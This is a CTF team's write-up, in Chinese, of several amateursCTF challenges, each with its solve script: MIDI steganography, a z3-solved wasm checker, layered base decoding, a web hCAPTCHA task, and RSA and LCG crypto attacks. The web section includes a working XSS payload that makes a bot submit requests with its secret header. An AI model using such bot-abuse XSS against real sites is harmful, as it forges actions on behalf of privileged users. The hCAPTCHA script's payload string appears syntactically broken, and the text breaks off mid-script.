








- Contest Link: https://ctftime.org/event/2844/
- Team Name: StarMachine
- Members: hypersoweak, Andromeda, Qwertypig
- Ranked 31 / 853 teams

## misc/Uwa so Piano

題目只給了一個 `megalovania_snippet.mid` 的 MIDI 檔案，看起來很正常，就是經 典的 UNDERTALE MEGALOVANIA，不過有些音符聽起來怪怪的，原本以為會藏在頻譜圖裡，打開什麼都沒有，後來想說寫個 script 把音符抓出來看看：

```python
from mido import MidiFile

mid = MidiFile("megalovania_snippet.mid")

for i, track in enumerate(mid.tracks):
    print(f"Track {i}")
    abs_time = 0
    for msg in track:
        abs_time += msg.time
        if msg.type in ["note_on", "note_off"]:
            print(abs_time, msg.type, msg.note, msg.velocity)
```

隨便滑一滑 output 就突然發現 Track 1 有些數字看起來怪怪的



```
97 109 97 116 101 117 114 115
```

不就是 `amateurs` 嗎，整理一下就是 flag 啦，~~原來我對 ascii 這麼敏感嗎？~~

**FLAG:** `amateursCTF{h1t_th3_n0t3s}`

## rev/wasm-checker

如題目，他給的就是一個 wasm 的 flag checker，把他提供的 wasm decompile 之後 長這樣：

```javascript
export memory memory(initial: 1, max: 0);

export function check():int { // func0
  if ((6[0]:ubyte + 38[0]:ubyte - 31[0]:ubyte -
       ((3[0]:ubyte &
         (21[0]:ubyte ^ 41[0]:ubyte) -
         (12[0]:ubyte | 13[0]:ubyte) * 26[0]:ubyte) |
        (2[0]:ubyte | 35[0]:ubyte + 39[0]:ubyte)) |
       20[0]:ubyte - 4[0]:ubyte - 30[0]:ubyte) !=
      110) {
    return 0
  }
  if ((10[0]:ubyte | 36[0]:ubyte) != 95) { return 0 }
  if (((27[0]:ubyte ^ 8[0]:ubyte) & 15[0]:ubyte) != 45) { return 0 }
  if (((33[0]:ubyte ^
        (1[0]:ubyte * (42[0]:ubyte * 37[0]:ubyte ^ 24[0]:ubyte * 18[0]:ubyte) ^
         25[0]:ubyte)) &
       19[0]:ubyte) !=
      100) {
    return 0
  }
  if ((0[0]:ubyte ^ 28[0]:ubyte) != 23) { return 0 }
  if ((34[0]:ubyte & 16[0]:ubyte) != 82) { return 0 }
  if ((22[0]:ubyte & 29[0]:ubyte) != 48) { return 0 }
  ...
  if (19[0]:ubyte +
      (11[0]:ubyte ^ ((4[0]:ubyte * 5[0]:ubyte & 8[0]:ubyte) ^ 30[0]:ubyte)) !=
      108) {
    return 0
  }
  return 1;
}
```

可以看到他就是用一堆條件限制了 flag 的每個字元，可以用 z3 solver 來找到符合 的解，我寫了一個 script parse `wat` 檔並自動加到 z3 裡面求解：

<Details summary="solve.py">

```py
from z3 import *
import re

N = 43
wat_path = "module.wat"

# --- Z3 vars ---
b = [BitVec(f"b{i}", 8) for i in range(N)]
x = [ZeroExt(24, bi) for bi in b]
s = Solver()
s.add([And(bi >= 32, bi <= 126) for bi in b])

# --- parse wat into inst stream ---
with open(wat_path, "r", encoding="utf-8") as f:
    inst = [
        line.strip()
        for line in f
        if (l := line.strip())
        and not l.startswith("(")
        and (l.startswith("i32.") or l.startswith("if") or l in ("end", "return"))
    ]

# --- compile inst stream to ops ---
ops = []
i = 0
while i < len(inst):
    l = inst[i]
    if l.startswith("i32.const"):
        nums = re.findall(r"-?\d+", l)
        if nums:
            k = int(nums[-1])
            if i + 1 < len(inst) and inst[i + 1] == "i32.load8_u":
                ops.append(("load", k))
                i += 2
                continue
            ops.append(("const", k))
        i += 1
        continue

    if l == "i32.load8_u":
        raise RuntimeError("Unexpected bare i32.load8_u")

    if l in {"i32.add", "i32.sub", "i32.mul", "i32.xor", "i32.or", "i32.and"}:
        ops.append((l[4:],))
        i += 1
        continue  # add/sub/...
    if l.startswith("i32.ne"):
        ops.append(("ne",))
        i += 1
        continue
    if l.startswith("if"):
        ops.append(("clr",))
        i += 1
        continue
    if l in ("end", "return"):
        ops.append(("clr",))
        i += 1
        continue

    i += 1

# --- execute ops into constraints ---
binop = {
    "add": lambda a, b: a + b,
    "sub": lambda a, b: a - b,
    "mul": lambda a, b: a * b,
    "xor": lambda a, b: a ^ b,
    "or": lambda a, b: a | b,
    "and": lambda a, b: a & b,
}

stack = []
for kind, *arg in ops:
    if kind == "clr":
        stack.clear()
    elif kind == "load":
        idx = arg[0]
        stack.append(x[idx] if 0 <= idx < N else BitVecVal(0, 32))
    elif kind == "const":
        stack.append(BitVecVal(arg[0], 32))
    elif kind == "ne":
        rhs, lhs = stack.pop(), stack.pop()
        s.add(lhs == rhs)
    else:  # binop
        b2, b1 = stack.pop(), stack.pop()
        stack.append(binop[kind](b1, b2))

# --- solve ---
if s.check() == sat:
    m = s.model()
    print("FLAG =", "".join(chr(m[bi].as_long()) for bi in b))
else:
    print("unsat :(")
```

</Details>



**FLAG:** `amateursCTF{w4sm_and_s4t_s0lv3r5_4r3_c00l!}`

## misc/based

這題就給了一個 `flag.txt`，裡面大概長這樣：

```
MmtiTjY5MzFlaVh1UGtSZGpZV1VmRmp1MnRHV2hpOVhKdEFYa25yM...X2Nna29zd3t/g4eLj5OXm5+jp6uvs7e7v8PHy8/T19vf4+fr7/P3+/w==
```

這一看就是 base64，解開：

```
00000000  32 6b 62 4e 36 39 33 31  65 69 58 75 50 6b 52 64  |2kbN6931eiXuPkRd|
00000010  6a 59 57 55 66 46 6a 75  32 74 47 57 68 69 39 58  |jYWUfFju2tGWhi9X|
00000020  4a 74 41 58 6b 6e 72 31  6d 77 33 42 38 48 58 72  |JtAXknr1mw3B8HXr|
00000030  57 6a 71 70 6b 74 36 7a  53 6f 76 4e 52 73 71 57  |Wjqpkt6zSovNRsqW|
00000040  58 66 66 77 59 44 6f 65  79 6f 46 57 6d 7a 35 74  |XffwYDoeyoFWmz5t|
...
00001580  35 61 47 58 77 51 4c 72  35 64 59 7a 77 41 33 6b  |5aGXwQLr5dYzwA3k|
00001590  59 54 5a 51 53 62 78 6e  31 74 78 77 73 54 63 5a  |YTZQSbxn1txwsTcZ|
000015a0  42 37 33 41 64 74 37 36  62 65 53 47 6a 56 52 6d  |B73Adt76beSGjVRm|
000015b0  71 37 51 6d 52 4a 73 42  45 34 33 72 55 75 31 4e  |q7QmRJsBE43rUu1N|
000015c0  43 51 76 00 01 02 03 04  05 06 07 08 09 0a 0b 0c  |CQv.............|
000015d0  0d 0e 0f 10 11 12 13 14  15 16 17 18 19 1a 1b 1c  |................|
000015e0  1d 1e 1f 20 21 22 23 24  25 26 27 28 29 2a 2b 2c  |... !"#$%&'()*+,|
000015f0  2d 2e 2f 30 31 32 33 34  35 36 37 38 39 3a 3b 3c  |-./0123456789:;<|
00001600  3d 3e 3f 40 41 42 43 44  45 46 47 48 49 4a 4b 4c  |=>?@ABCDEFGHIJKL|
...
```

可以看到後面是 `\x00` 到 `\xff`，把後面砍掉之後剩下的部份是 base58，就這樣每次脫一層殼，依序是：

```
base64 -> base58 -> base92 -> base85 -> base32 -> base91
```

最後解完之後會長這樣：

```
616D6174657572734354467B495F6C3076335F623435337D000102030405060708090A0...
```

再次把後面的 padding 拿掉，剩下的部份兩個字元一組就是 ASCII flag 了。我解到 最後一步的時候 base91 寫錯所以跑不出來，感謝 Qwertypig 幫我 debug。

<Details summary="solve.py">

```py
import base64
from pwn import hexdump
from pathlib import Path


def b58decode(data: bytes) -> bytes:
    ALPH58 = b"123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz"
    IDX58 = {c: i for i, c in enumerate(ALPH58)}
    num = 0
    for c in data:
        num = num * 58 + IDX58[c]

    out = bytearray()
    while num:
        num, rem = divmod(num, 256)
        out.append(rem)
    out = bytes(reversed(out)) or b"\x00"

    pad = len(data) - len(data.lstrip(b"1"))
    return b"\x00" * pad + out


def b92decode(data: bytes) -> bytes:
    ALPH92 = bytes([i for i in range(33, 126) if i not in (34, 96)])
    IDX92 = {c: i for i, c in enumerate(ALPH92)}
    bits = []

    it = iter(data)
    for a in it:
        b = next(it, None)
        if b is None:
            v = IDX92[a]  # 6 bits
            bits.extend((v >> k) & 1 for k in range(5, -1, -1))
        else:
            v = IDX92[a] * 91 + IDX92[b]  # 13 bits
            bits.extend((v >> k) & 1 for k in range(12, -1, -1))

    out = bytearray()
    for i in range(0, len(bits) - 7, 8):
        v = 0
        for bit in bits[i: i + 8]:
            v = (v << 1) | bit
        out.append(v)
    return bytes(out)


def b91decode(data: bytes) -> bytes:
    ALPH91 = (
        b"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
        b"!#$%&()*+,./:;<=>?@[]^_`{|}~\""
    )
    DEC91 = {c: i for i, c in enumerate(ALPH91)}
    v = -1
    b = 0
    n = 0
    out = bytearray()

    for ch in data:
        c = DEC91.get(ch)
        if c is None:
            continue

        if v < 0:
            v = c
            continue

        v += c * 91
        b |= v << n
        n += 13 if (v & 8191) > 88 else 14

        while n >= 8:
            out.append(b & 0xFF)
            b >>= 8
            n -= 8
        v = -1

    if v >= 0:
        b |= v << n
        n += 7
        while n >= 8:
            out.append(b & 0xFF)
            b >>= 8
            n -= 8

    return bytes(out)


TAIL_0_255_BYTES = bytes(range(256))
TAIL_0_255_HEX = "".join(f"{i:02x}" for i in range(256))


def strip_tail_0_255(buf: bytes) -> bytes:
    return buf[:-256] if len(buf) >= 256 and buf.endswith(TAIL_0_255_BYTES) else buf


def write_layer(name: str, data: bytes) -> bytes:
    Path("output", f"{name}.bin").write_bytes(data)
    data = strip_tail_0_255(data)
    return data


def main():
    raw = Path("flag.txt").read_bytes().strip()
    Path("output").mkdir(parents=True, exist_ok=True)

    layer1 = write_layer("layer1", base64.b64decode(raw))
    layer2 = write_layer("layer2", b58decode(layer1))
    layer3 = write_layer("layer3", b92decode(layer2))
    layer4 = write_layer("layer4", base64.a85decode(layer3))
    layer5 = write_layer("layer5", base64.b32decode(layer4))
    layer6 = write_layer("layer6", b91decode(layer5))

    s = layer6.decode("ascii", errors="ignore")
    hex_str = "".join(ch for ch in s if ch in "0123456789abcdefABCDEF")
    if hex_str.lower().endswith(TAIL_0_255_HEX):
        hex_str = hex_str[: -len(TAIL_0_255_HEX)]

    flag = bytes.fromhex(hex_str).decode()
    print(flag)


if __name__ == "__main__":
    main()
```

</Details>



**FLAG:** `amateursCTF{I_l0v3_b453}`

## web/hCAPTCHA

這題挺有趣的，就給你一個有 captcha 的網站，成功驗證後會嗆你：I am not human!



看一下 source code：

```javascript
const secret = crypto.randomBytes(16).toString("hex");

app.post("/", (req, res) => {
  if (!req.body || !req.body["h-captcha-response"]) {
    res.send(renderMessage("Error", "No h-captcha-response provided."));
    return;
  }

  const hcaptchaResponse = req.body["h-captcha-response"];
  if (typeof hcaptchaResponse !== "string") {
    res.send(renderMessage("Error", "Invalid h-captcha-response."));
    return;
  }

  verifyCaptcha(hcaptchaResponse)
    .then((data) => {
      console.log("verify result:", data);
      if (data.success) {
        if (req.headers["x-secret"] == secret) {
          show = true;
          res.send(renderMessage("Success", "OMG U DID IT!"));
        } else {
          res.send(renderMessage("Verified", "You are human! YYAYAYAYAYAY"));
        }
      } else {
        res.send(renderMessage("Error", "I am not human!"));
      }
    })
    .catch((err) => {
      console.error(err);
      res.send(renderMessage("Error", "Verification error."));
    });
});
```

可以看到成功的條件是 captcha 通過，且 header 裡面有 `x-secret`，而 `secret` 是 server 啟動時隨機產生的 16 bytes hex string，看起來不太可能直接猜到。

然後還有一個 endpoint `/share` 讓 bot 幫你帶 secret：

```javascript
app.post('/share', async (req, res) => {
    const { url } = req.body;
    const validUrl = new URL(url);
    if (validUrl.hostname !== '127.0.0.1') {
        ...
    } else {
        puppeteer.launch(...).then(async browser => {
            const page = await browser.newPage();
            await page.setExtraHTTPHeaders({
                'X-secret': secret
            });
            console.log('Visiting', url);
            await page.goto(url);
            await new Promise(resolve => setTimeout(resolve, 5000));
            await browser.close();
        });
        res.send(renderMessage('OK', 'Sharing is caring!'));
    }
});
```

再來這邊寫明了要給你 XSS，人也太好。只要讓 bot 執行 `http://127.0.0.1:4071/?xss=BASE64(JAVASCRIPT)` 就可以執行任意 JS 了。

```html
<script>
  if (window.location.href.includes("xss")) {
    eval(atob(window.location.href.split("xss=")[1]));
  }
</script>
```

所以我們只要利用 `/share` + XSS，讓 bot 幫我們對 / 送出一個滿足條件的 POST，因此我們要先手動解一次 hCAPTCHA 拿 token，並且不要按 submit（token 只能使用 一次）。



然後用

```javascript
document.querySelector('[name="h-captcha-response"]').value;
```

拿到 token 貼到 script 裡面，最後讓 bot 幫我們送出就拿到 flag 了。

不知道為什麼打本機 docker 不會過，卡了很久後來直接打 remote 就過了 :(

<Details summary="solve.py">

```py
import base64
import re
import time
import requests

# baseurl = "http://localhost:4071"
baseurl = "https://web-hcaptcha-skxap9tr.amt.rs/"

token = "P1_eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.haJwZACjZXhwzmlSh46ncGFzc2tlecUFC20NxnrXxxFBgwAgSp7gKEzqFMAhTlJXa7tK6V1LFsBjytvIr-ujnVw8CgXBiXxikuHhJveqfBGTtOQ6YGcVyzuqKGvf_nFE_j5geulyHK2CgRRrMt-Z2GgTVV3z09XNiDLTWyu3BNfwT70QDr65MDScRQC4Mq1I5_XaFYQzGIL7VxADDN3ftdxrdubLsiBlDmzei6MZ7A4sM_rYoGQI4eh9Ed3lcv9tD3sgU0X9p8ylcUUE6BiM8zvqVwoEUTAD9LIkzmDTxY0krwPLabh9TbpBDve0d7vYLPQiAqkrgiaNkIZ8IC-XMA9ccRoGE0DAsQadoVCffu_3mgfvlBxYMmr_NCSivaEVD1p3kKhIKJr0kFiZKvvodOgDJB_2cbQaYlV02m_zKP0jznTT1OOICO-Jp_p_o2kByxYyTtA8rSNkuz6rBKRFd0K8DZyem-Aen1-7cHqm6v3709GPzZ73tKSmFw1yyJmFUg9SeKNFA3P18AK6hJDxHtOlGeQ2Ef5pBfvfh9QwgZV95N9Rzq529NNW86o36yQTCObIiRJIe1l1EmuhhH5ZaPJWxeQLNzR6diGxSOWdbYKKGLkg4LYbtuUT5RCz9vwOrtuZWnTjkORmcJHJDeJwyjjqJ43OzZfOLcDxoFt4M9vERkT1Y2sb5cTm5jDN1nwFmF_nQ31dIWzezbFhQTk0vJuwIMavr-Chq6Kv19SJOi2xSxSOf_KnTs_ff5LPgEysj_uBEK8ZNwfe3aXHX3uvxwo-QDpkYD3z9i1QejSvUeM_Ok0dY6VUUwLKJI5uQrjw4d75QrlogIGni-j_9I9MEkSHSy1qBu_afoEl4k1YG6aPzV-zampm4q_I9J1SGncxih1Xe5TCdGOfeVqIY01aFybbC1FsvFVIOv8Xb0PGrYLT2429SsLXUSDOJzw_B0v2LN5iQaxLlgaz690AyOJN5L2oyrJIsvei9PBSfJhYvwQhKQfbpdEevq_nFBYGNoT3eMhLgCFGb0grTQurT2DxKeSFn9WavxxsPLgND-wW6hkkyySqLUWzgHMsK4Q1tSaPIIubCZcpfvMq_EIRgaHbIiGyeqsw6XPeD1MfmSLWbKUkJbDWe2fV9zZe6BTFRp_tUf1e669D8E5kSCSEoQpF_7jaES_j7pEDlXU30fhsrAAKcUWRx-d3iW_SEcbReHrhvXk2rcrgC7WbC8v23c_EB3zEa38QEBYjjUL8PglHL4q9XjTj91cqlT3ZdtZgC9oMfzGPETgwyldhOddNCvIKla5d6_vaigD5zUbnzOAEO47d_iMsENegdyz-9veWn-KbHgYQDTjE8isX4zIbMnR4qf57e96MMjCoE760mvFzz25VCbUdlpYAIXZeMUNa2ErCnlrhVhglPN7ZGNZYaOyxWoF6Wwz0RqbZ-zg-3A2LTYvzgtG6mco6ahwbUgJdlBXdcHH7krsNT9IkjBYF-r1jgzBLpQ4tfFoZZy8JMfVGtvPR2OOuzocGLy9rI47mT26QyipWO0rG856y1QK4hMfT0otKaYDBi9NcyUQeysXlW3iw_m10o2t0QMzsNi5suGHpgRyPT_g_OO9pRNRmXsnig4uWY9v31slrtEtIbI599tjIjMS_PNeQFM78y408Ow9T6QTW2WuC15dX88eT8yvf0UolFNgNPbwiAVvX6z8XDDuCXZb_Q2k5hITROtIUaV_GDP_l_vMUlfp-8InNn-hFCMab29Cia3KoMjEwYzBkYWaoc2hhcmRfaWTOFZnkVA.oKRXNApCxJFSMSFfDE0XlfrCePuBnqiSMJAvsy57LJ0"

payload = (
    f'var token="{token}";'
    'fetch("/",{
    method:"POST",
    headers:{"Content-Type":"application/x-www-form-urlencoded"},
    body:"h-captcha-response="+encodeURIComponent(token)
    });"
)

b64 = base64.b64encode(payload.encode()).decode()
xss_url = f"http://127.0.0.1:4071/?xss={b64}"

print(f"{xss_url = }")

data = {"url": xss_url}

print("\nSending POST /share ...")
r = requests.post(f"{baseurl}/share", json=data, timeout=8)
print("/share response:")
print(r.text)

time.sleep(2)

try:
    home = requests.get(f"{baseurl}/", timeout=6)
    print(home.text)
    m = re.search(r"Here is your flag:\s*<code>([^<]+)</code>", home.text)
    if m:
        print("\nFLAG:", m.group(1))
    else:
        print("\nNo flag QwQ")
except Exception as e:
    print("Error:", e)
```

</Details>



**FLAG:** `amateursCTF{W_C4PTCH4_B3h4v13r}`

## crypto/addition

`chall.py`:

```python
#!/usr/local/bin/python
from Crypto.Util.number import *
from random import getrandbits, choice
import hashlib

flag = open('flag.txt','rb').read().strip()
assert len(flag) == 72
flag = bytes_to_long(flag) << 256

n = getPrime(1024) * getPrime(1024)
e = 3

cs = [flag + getrandbits(256) for _ in range(100000)]

print(f'{n, e = }')

while True:
    scramble = int(input('scramble the flag: '))

    ms = [(m + scramble)%n for m in cs]

    print('scrambling...')

    c = choice([pow(m, e, n) for m in ms])
    print(f'{c = }')
```

又是個 server 題，加密邏輯是 flag 先被左移 256 bits 叫做 $F$，然後產生 100000 個隨機數 $r_i$，組成 $cs_i = F + r_i$。接著使用者可以輸入一個 值 $S$，程式會計算 $ms_i = (cs_i + S) \mod n$，然後從這些 $ms_i$ 中隨機選一個 $m$ 進行 RSA 加密，輸出密文 $c = m^e \mod n$，其中 $e = 3$。

雖然 $r_i$ 未知，但因為 $r_i$ 是 256 bits，但 $n$ 是 2048 bits，所以

$$
m_i = F + r_i + S \approx F + S
$$

問多次一點就很有機會抽到同一個 $cs_i$ 被不同 $S$ 加密的結果。抽到的 話他們就存在線性關係，這時可以用 Franklin-Reiter Related-Message Attack 來解出 $m$，接著就能算出 $F$，最後右移 256 bits 就是 flag 了。

因為有 100000 個不同的 $cs_i$，根據生日悖論，$N$ 選 $Q$ 存在重複的機率約為

$$
P(N, Q) \approx 1 - e^{-(Q^2)/(2N)}
$$

所以我選擇抽 $Q = 600$ 次，帶入公式得到機率約為 $P \approx 83.5\%$，然後再爆搜 $O(Q^2)$ 次組合來找重複的 $cs_i$ 就解掉這題了。（蒐集 600 次跑好久...）

<Details summary="solve.py">

```py
import re
from pwn import *
from Crypto.Util.number import long_to_bytes
from sage.all import *


def franklin_reiter_e3(c1, c2, k, n):
    num = (k * (c2 + 2 * c1 - pow(k, 3, n))) % n
    den = (c2 - c1 + 2 * pow(k, 3, n)) % n
    try:
        return (num * pow(den, -1, n)) % n
    except ValueError:
        return None


def main():
    if args.REMOTE:
        r = remote("amt.rs", 34759)
    else:
        r = process(["python3", "chall.py"])

    line = r.recvlineS().strip()

    numbers = re.findall(r"\d+", line)
    if len(numbers) < 2:
        return
    n, e = int(numbers[0]), int(numbers[1])
    print(f"{n = }")
    print(f"{e = }")

    samples = []
    Q = 600

    for i in range(Q):
        r.recvuntil(b"scramble the flag:")
        r.sendline(str(i).encode())
        r.recvuntil(b"c = ")
        c_val = int(r.recvlineS().strip())
        samples.append((i, c_val))
        if (i + 1) % 20 == 0:
            print(f"Collected {i + 1}/{Q}")

    for i in range(len(samples)):
        s1, c1 = samples[i]
        for j in range(i + 1, len(samples)):
            s2, c2 = samples[j]
            k = (s2 - s1) % n
            m1 = franklin_reiter_e3(c1, c2, k, n)

            if m1 is not None and pow(m1, 3, n) == c1:
                print("\nFound!")
                cs_val = (m1 - s1) % n
                flag_int = int(cs_val) >> 256
                flag = long_to_bytes(flag_int).decode().strip()
                print(f"FLAG: {flag}")
                return


if __name__ == "__main__":
    main()
```

</Details>



**FLAG:** `amateursCTF{1_h0p3_you_didnT_qU3ry_Th3_s3RVer_100k_tim3s_1b9490c255fe83}`

還好數學告訴我們只要抽幾百次，不然就被 flag 嗆了。

## crypto/triangulate

`chall.py`:

```python
#!/usr/local/bin/python3

from random import getrandbits
from Crypto.Util.number import *

flag = bytes_to_long(open('flag.txt', 'rb').read())
k = flag.bit_length()
m = getPrime(flag.bit_length() + 1)


def lcg():
    seed = flag
    a = getrandbits(k)
    c = getrandbits(k)
    ctr = 0
    while True:
        ctr += 1
        for _ in range(ctr):
            seed = (a * seed + c) % m
        yield seed

rng = iter(lcg())

for _ in range(6):
    print(next(rng))
```

題目實作了一個非標準的 LCG，跟典型 LCG 的差別是迭代次數會逐漸增加，呼應題目 名稱 triangulate，也就是：

$$
s_n = f^n (s_{n-1}) \mod m
$$

其中 $f(x) = a x + c \mod m$，所以可以表示為

$$
f^n (x) = a^n x + c \cdot \frac{a^n - 1}{a - 1} \mod m
$$

由於我們已知 $s_1, s_2, ..., s_6$，但不知道 $a, c, m$，所以我們先想 辦法把 $c$ 消掉。對於任意兩組連續狀態，我們透過交叉相乘

$$
(s_n - a^n s_{n-1}) (a^{n+1} - 1) \equiv (s_{n+1} - a^{n+1} s_n) (a^n - 1) \mod m
$$

將他們整理成關於 $a$ 的多項式 $P(x) \equiv 0 \mod m$，他們都有共同根 $a$。若 $P, Q$ 在模 $m$ 下有共同根 $a$，那他們的 resultant 會滿足 $\mathrm{res}(P, Q) \equiv 0 \mod m$。因此我們可以計算出多組多項式的 resultant，並且對這些 resultant 做 gcd，就能得到 $m$ 的倍數，實際上就等於 $m$ 了。

有了 $m$ 之後，我們就可以帶回去解出 $a, c$，最後就能反推回 flag 了。

<Details summary="solve.py">

```py
from sage.all import *
from Crypto.Util.number import long_to_bytes

s = [
    1471207943545852478106618608447716459893047706734102352763789322304413594294954078951854930241394509747415,
    1598692736073482992170952603470306867921209728727115430390864029776876148087638761351349854291345381739153,
    7263027854980708582516705896838975362413360736887495919458129587084263748979742208194554859835570092536173,
    1421793811298953348672614691847135074360107904034360298926919347912881575026291936258693160494676689549954,
    7461500488401740536173753018264993398650307817555091262529778478859878439497126612121005384358955488744365,
    7993378969370214846258034508475124464164228761748258400865971489460388035990421363365750583336003815658573,
]

s1, s2, s3, s4, s5, s6 = s

R = PolynomialRing(ZZ, "x")
x = R.gen()

P = (s3 - s2) * x**4 + (s1 - s2) * x**3 + (s3 - s2) * x + (s3 - s4)
